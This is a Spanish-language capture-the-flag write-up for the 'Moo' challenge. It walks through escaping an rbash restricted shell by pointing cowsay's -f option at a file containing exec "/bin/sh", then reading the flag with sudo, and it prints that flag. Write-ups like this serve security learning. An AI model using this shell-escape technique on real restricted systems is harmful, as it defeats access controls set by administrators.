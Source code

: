 # Moo

## Enunciado del Reto
>~~~
>Just read the flag, it's all there.
>~~~

## Archivos

- Ninguno

- - -

## Solución

Tras conectarnos por ssh a la máquina. Somos recibidos con el siguiente mensaje de cowsay:

>~~~
> ______________________________________________________
>/ Welcome dear CTF player! You can read the flag with: \
>\ /bin/sudo /bin/cat /flag.txt. Or can you?...         /
> ------------------------------------------------------
>        \   ^__^
>         \  (oo)\_______
>            (__)\       )\/\
>                ||----w |
>                ||     ||
>user@moo:~$
>~~~

Intentamos hacer lo que dice y accedemos al fichero.

>~~~
>user@moo:~$ /bin/sudo /bin/cat /flag.txt
>bash: /bin/sudo: restricted: cannot specify `/' in command names
>~~~

Esto puede significar que nos encontramos en una [*Restricted Shell*](https://en.wikipedia.org/wiki/Restricted_shell). Para comprobarlo podemos ver que shell estamos ejectuando.

>~~~
>user@moo:~$ echo $SHELL
>/usr/local/rbin/rbash
>~~~

Efectivamente nos encontramos en una shell restringida. No podremos usar redirecciones `> >> 2> <`, pipes `|` ni especificar comandos con `/`, además de contar con un conjunto reducido de binarios para ejecutar.

Pulsando TAB dos veces podremos listar los comandos que tenemos disponibles.

>~~~
>user@moo:~$
>!          compgen    enable     history    read       true
>./         complete   esac       if         readarray  type
>:          compopt    eval       in         readonly   typeset
>[          continue   exec       jobs       return     ulimit
>[[         coproc     exit       kill       select     umask
>]]         cowsay     export     let        set        unalias
>alias      declare    false      local      shift      unset
>bg         dircolors  fc         logout     shopt      until
>bind       dirs       fg         ls         source     vim
>break      disown     fi         mapfile    suspend    wait
>builtin    do         for        popd       test       while
>caller     done       function   printf     then       {
>case       echo       getopts    pushd      time       }
>cd         elif       hash       pwd        times
>command    else       help       rbash      trap
>~~~

Podriamos ejecutar una shell desde `vim`, pero seguramente se trate de `rvim`, una versión restringida de vim. Algo que resulta raro es que en una shell restringida podamos usar `cowsay`. Este programa sirve para formatear texto de manera que parezca que una vaca lo está diciendo (igual que el mensaje de bienvenida de la máquina).

Cowsay está escrito en perl, y tiene una vulnerabilidad conocida que nos permite ejecutar código sin restricciones en una rshell. Lo haremos de la siguiente manera:

Primero crearemos con vim un fichero cuyo contenido sea `exec "/bin/sh"`, lo llamamos de cualquier manera, en este caso `tst`.

Luego creamos una variable que almacene la ruta al fichero:

>~~~
>user@moo:~$ AUX="/home/user/tst"
>user@moo:~$ echo $AUX
>/home/user/tst
>~~~

Finalmente, usamos `cowsay` para ejecutar una shell y probar con el comando que decía la vaca del principio.

>~~~
>user@moo:~$ cowsay -f $AUX x
>$ /bin/sudo /bin/cat /flag.txt
>Hero{s0m3_s4cr3d_c0w}
>~~~

## Flag

```
Hero{s0m3_s4cr3d_c0w}
```

>~~~
> _______________________
>< Hero{s0m3_s4cr3d_c0w} >
> -----------------------
>        \   ^__^
>         \  (xx)\_______
>            (__)\       )\/\
>             U  ||----w |
>                ||     ||
>~~~